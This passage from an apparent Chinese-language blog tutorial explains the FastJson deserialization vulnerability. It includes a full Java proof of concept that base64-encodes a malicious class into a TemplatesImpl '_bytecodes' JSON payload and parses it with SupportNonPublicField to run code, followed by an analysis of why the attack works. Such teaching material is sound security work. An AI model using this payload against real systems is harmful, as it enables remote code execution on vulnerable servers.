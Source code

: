 ![](http://pony-maggie.github.io/assets/images/2020/java/03/3-2.png)

我们把编译好的`EvilCode.class`文件留着备用。接着我们写一段`poc`证明漏洞的存在，

```
public class Pocf {
    public static String readClass(String cls){
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(cls)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encodeBase64String(bos.toByteArray());
    }

    public static void  test_autoTypeDeny() throws Exception {
        ParserConfig config = new ParserConfig();
        final String fileSeparator = System.getProperty("file.separator");
        //根据自己的实际路径修改
        final String evilClassPath = System.getProperty("user.dir") + "//target//classes//com//app//fastjson//EvilCode.class";
        String evilCode = readClass(evilClassPath);

        final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String text1 = "{\"@type\":\"" + NASTY_CLASS +
                "\",\"_bytecodes\":[\""+evilCode+"\"],'_name':'a.b','_tfactory':{ },\"_outputProperties\":{ }," +
                "\"_name\":\"a\",\"_version\":\"1.0\",\"allowedProtocols\":\"all\"}\n";
        System.out.println(text1);

        Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);
        //assertEquals(Model.class, obj.getClass());
    }
    public static void main(String args[]){
        try {
            test_autoTypeDeny();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

运行这段代码，你会发现计算器的引用也会弹出来。这就相当于在反序列的时候执行了我们的恶意代码。

### 攻击原理分析
我们来分析下上面那段`poc`代码，首先是读入我们的`EvilCode`class文件，这里有一个小细节就是读入的class文件内容会被base64编码。为什么要这么处理呢？

答案其实也很简单，因为FastJson提取`byte[]`数组字段值时会进行Base64解码，这个大家看下源码就知道了，不是本文的重点这里不展开了。

接下来就是执行反序列了，我们的`EvilCode`的class文件是赋值给了`TemplatesImpl`的_bytecodes属性，_bytecodes却是私有属性，_name也是私有域，所以在parseObject的时候需要设置Feature.SupportNonPublicField，这样_bytecodes字段才会被反序列化。
